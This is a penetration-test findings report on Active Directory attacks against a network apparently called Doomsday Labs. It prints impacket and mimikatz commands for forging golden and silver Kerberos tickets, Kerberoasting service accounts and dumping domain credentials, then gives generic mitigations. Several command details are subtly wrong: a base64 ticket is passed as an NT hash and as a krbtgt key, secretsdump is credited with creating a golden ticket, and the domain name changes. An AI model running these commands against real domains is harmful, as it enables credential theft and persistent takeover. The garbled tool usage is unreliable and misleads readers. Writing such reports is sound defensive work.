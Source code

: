 # Active Directory Exploitation Findings

## Overview

This document details the vulnerabilities that were exploited in Active Directory (AD) during the penetration testing of Doomsday Labs' network.

## Technical Details

### Exploitation Techniques
- **Pass the Ticket Attack**:
  - This attack was carried out using forged Kerberos Ticket Granting Tickets (TGTs) obtained through memory dumping techniques. The `impacket-ticketer` tool was used to create forged tickets allowing unauthorized access under the assumption of legitimate users.
    ```
    impacket-ticketer -nthash doIF0jCCBc6g...NXU/rX [snipped] -domain-sid S-1-5-21-2774200336-3400690103-1452933870-1111 -domain doomsdaylabs.net da.admin
    ```
- **Kerberoasting**:
  - Service accounts with weak or default passwords were targeted to request service tickets that could be cracked offline. This technique was used to extract service ticket hashes which were then subjected to offline cracking.
    ```
    impacket-GetUserSPNs doomsdaylabs.net/filemaker -dc-ip 10.100.1.2 -request
    ```
- **Golden Ticket Creation**:
  - After obtaining domain admin privileges, Golden Tickets were created for maintaining persistent and undetected access within the network. This was achieved using `impacket-secretsdump` to dump credentials and create a Golden Ticket.
    ```
    KRB5CCNAME=./Administrator.ccache impacket-secretsdump -k -no-pass -dc-ip 10.100.1.2 -target-ip 10.100.1.2 dc.doomsdaylabs.net
    ```
- **Silver Ticket Attack**:
  - Exploited misconfigurations in service accounts to create Silver Tickets, granting access to specific services without requiring full domain compromise.
    ```
    mimikatz # kerberos::golden /user:Administrator /domain:doomsdaylabs.local /sid:S-1-5-21-2774200336-3400690103-1452933870-1111 /krbtgt:doIF0jCCBc6g...NXU/rX [snipped] /service:HTTP /target:webserver.doomsdaylabs.net
    ```

## Impact Assessment

- **Potential Risks**:
  - Unauthorized Access: Exploited vulnerabilities allowed attackers to gain unauthorized access to various components of the network, leading to potential data breaches.
  - Privilege Escalation: By exploiting these vulnerabilities, attackers could escalate privileges to administrative levels, gaining control over the network infrastructure.
  - Persistence: The use of Golden and Silver Tickets enabled persistent access to network resources, complicating detection and remediation efforts.

## Mitigations

- **Security Enhancements**:
  - Regularly update and patch Active Directory environments to close security gaps and fix vulnerabilities.
  - Conduct periodic security reviews and audits of Active Directory settings to ensure all configurations adhere to best security practices.
  - Implement strict access controls and segmentation to limit the impact of potential exploits.
  - Educate and train IT staff on the latest AD security threats and countermeasures to enhance organizational readiness against attacks.

## Conclusion

The findings from this penetration test highlight critical security issues within the Active Directory setup of Doomsday Labs. Addressing these vulnerabilities promptly and following the recommended security measures will significantly improve the security posture of the organization.
